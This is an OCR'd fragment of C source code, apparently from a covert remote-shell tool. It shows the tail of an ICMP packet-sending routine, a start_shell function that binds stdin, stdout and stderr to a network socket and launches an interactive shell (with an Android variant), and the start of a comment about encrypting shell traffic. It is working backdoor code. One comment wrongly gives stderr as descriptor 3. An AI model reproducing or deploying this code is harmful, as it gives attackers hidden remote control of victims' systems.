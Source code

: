 ```C
        icmp->un.echo.sequence = htons(5);
        // set the checksum field to zero and calculate the checksum
        // for the packet
        icmp->checksum = 0;
        icmp->checksum = icmp_cksum ((char*)icmp, len);

        sendto (s, pkt, len, 0,
                (struct sockaddr*) &dest,
                sizeof (struct sockaddr_in));
        free (pkt);
        return len;
}

// Function that allow us to implement a reverse remote shell.
//
// It makes use of two system calls dup2 and execv. The first one
// duplicates a given file descriptor. In this case, the three
// calls at the beginning of the function, assigns the file
// descriptor received as parameter to the Standard Input (file
//  descriptor 0), Standard Output (file descriptor 1) and
// Standard Error (file descriptor 3).
//
// If the file descriptor we pass as a parameter is one of the
// sockets created with our previous client and server functions,
// we are effectively sending and receiving data through the
// network every time we write data to the console and we read data
// from stdin.
//
// Ported to ANDROID
int
start_shell (int s)
{
        char *name[3];

#ifdef VERBOSE
        printf ("+ Starting shell\n");
#endif
        dup2 (s, 0);
        dup2 (s, 1);
        dup2 (s, 2);

#ifdef _ANDROID
        name[0] = "/system/bin/sh";
#else
        name[0] = "/bin/sh";
#endif
        name[1] = "-i";
        name[2] = NULL;
        execv (name[0], name );
        exit (EXIT_FAILURE);

        return 0;
}

// This function decode the information received from the network sends
// it to the shell using the counterpart socket (from the socketpair)
// system call.
//
// At the same time, whenever the shell produces some output, this function
// will read that data, crypt it and send it over the network.
//
// Receives as parameters two file descriptors, one representing the
// socketpair end for communications with the shell (s1) and the
```